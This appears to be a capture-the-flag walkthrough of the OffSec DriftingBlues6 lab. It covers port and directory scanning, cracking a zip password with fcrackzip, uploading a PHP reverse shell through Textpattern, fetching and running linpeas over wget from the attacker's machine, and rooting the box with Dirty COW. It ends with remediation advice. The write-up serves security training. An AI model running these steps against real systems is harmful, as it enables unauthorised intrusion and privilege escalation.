 OffSec <br>
DriftingBlues6
---

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/653a0bcc-9557-4296-9a0d-5a7ec14b5611)

# Reconnaissance/Scanning:
Let’s start things off with a network scan to see which ports are open and the services running on each.
```
$ nmap -A -O -sC -sV -p- <machine_IP>
```
![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/f41a4548-0fa6-4435-88bb-b1e239832649)

Viewing the robots text file first I found:

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/5a816696-66ba-44ca-a084-ad34a93369a4)

I ran a few gobuster scans to find any other directories that might be hidden/of interest and added the .zip extension.
 
![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/f8729282-36c5-4eac-b908-c97eabb9a0bd)

Scan of /textpattern

 ![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/020db065-daa0-49c6-a978-26c6f4cae0dc)

Scan of /textpattern/textpattern

 ![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/96ad00c8-215e-4025-9c98-3a1ec2bddd4c)

Checking the README text file, I found the version of textpattern running.

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/8d4ab872-2d4c-4574-b25c-1ca9ee70a361)
 
Since I have the version of the CMS (content Management System) I’ll check for exploits.
```
$ searchsploit textpattern 4.8.3
```
![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/ac47419e-4884-43e2-9b01-3229fc2790fa)
 
In order to run the exploits, I need user credentials, so I need to find those. <br>
Getting back to the zip file I found, when trying to unzip it I was prompted for a password. <br>
To crack that password I used the tool fcrackzip.
```
$ fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u spammer.zip
```
Found the password!

 ![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/0ebe5f8b-a174-4fba-99a1-46b0f5646ea9)

Upon unzipping the file, there was a text file inside named “creds.txt”
 
![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/5a6afc6b-15a0-49ce-a946-8cb9d03c97ed)

# Initial foothold:
Awesome, now I can try to use the exploit and try to login the CMS to poke around on it. <br>
An upload area, yes! That means i’ll be trying to upload a reverse shell.

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/564abf64-2e61-4026-922f-60c94545e321)
 
Navigating to Content > Files > Upload to get the script on the server. You can see my shell uploaded as shell.php

 ![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/4b0d09fd-7063-4725-a738-91b6ea11816b)

That’s where I’ll visit to call my reverse shell.

After uploading and visiting the page, I get my reverse shell!

 ![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/7fd8e6e8-101c-4e03-8e9a-e7e8bbe47e44)

After spending what I thought was too much time looking for a way to escalate my privileges  <br>
by checking cronjobs, numerous directories, and files without any luck  <br>
I uploaded linpeas on the server to help me find what I was missing.
```
# I started a python server on my machine
$ python3 -m http.server <PORT>

# then I used wget to grab the script to the target machine
$ wget hxxp://<IP>:<PORT>/path/to/file

# after successfully getting the script change permissions to execute
$ chmod 777 linpeas.sh

# execute the script
$ ./linpeas.sh
```
*NOTE: to be able to get the file successfully on the target machine make sure to be in a writable directory such as /tmp* <br>
  
It’s showing that the machine is potentially vulnerable to CVE-2016–5195 which is the “dirty cow” kernel exploit.  <br>
Info found <a href=https://dirtycow.ninja/>here.</a>
```
"A race condition was found in the way the Linux kernel's memory subsystem 
handled the copy-on-write (COW) breakage of private read-only memory mappings. 
An unprivileged local user could use this flaw to gain write access to 
otherwise read-only memory mappings and thus increase their privileges on the 
system."
```
Here’s a snippet via exploit-db[.]com from the code on how to be able to run it.

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/7a2e0edb-0a72-46c2-b34b-ca70c8c282ee)
 
After downloading the script and following the directions to execute it.

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/cbfdade8-6b34-40e3-b293-f19284def466)
 
The new user with root privileges is made via the script and now I can escalate to that user.

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/6fb8fec0-8f81-471d-ac3d-0abd31bcc0dc)
 
Finally, I can grab the root flag!

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/c5eecf02-4b7d-4e8e-ba22-6286a645554c)

# Reporting:
•	Be sure to use strong passwords on files or even a password manager to help generate and store the password. <br>
•	Keep all software and hardware patched and up to date with the latest security releases to prevent vulnerabilities. <br>
•	Data sanitization and file content checking on anything that can be posted/uploaded needs to be in place.












































